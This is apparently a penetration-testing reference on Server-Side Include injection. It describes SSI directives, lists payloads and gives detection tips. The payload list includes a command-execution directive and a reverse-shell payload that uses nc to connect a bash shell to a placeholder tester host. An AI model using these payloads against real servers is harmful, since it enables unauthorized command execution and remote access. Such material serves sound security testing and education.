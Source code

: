 
## Primary SSI directives 

- **config** : The config command is a control directive to modify various SSI components. Includes parameters such as the default server error message (errmsg), file size format (sizefmt), and the date & time format (timefmt)

- **echo** : Inserts SSI and CGI environment variables values while including optional encoding arguments.

- **exec** : Executes an external application, following which the execution output is inserted into the document. This control directive supports cmd arguments from any client app or a cgi program.

- **flastmod**: The last time and date a specified file was modified. It accepts both a virtual path (virtual) and a relative pathname (file) as arguments for locating the document on the server.

- **include**:  Inserts text from another document into the current file. It also accepts file and virtual arguments to locate the document.

```
virtual uses a path that's relative to the server's document root or current directory and is processed by the server to determine the actual file location.
file uses the actual file path (relative or absolute) on the server's file system.
```

- **printenv**  Displays all environment variables within the server.

- **set** : A control directive that sets a server-side variable to the specified value.



## Payloads 

``` 
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->

// reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```


## Detection 

- checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

- It is possible to check if the application is properly validating input fields data by inserting characters that are used in SSI directives, like:
< ! # = / . " - > and [a-zA-Z0-9]
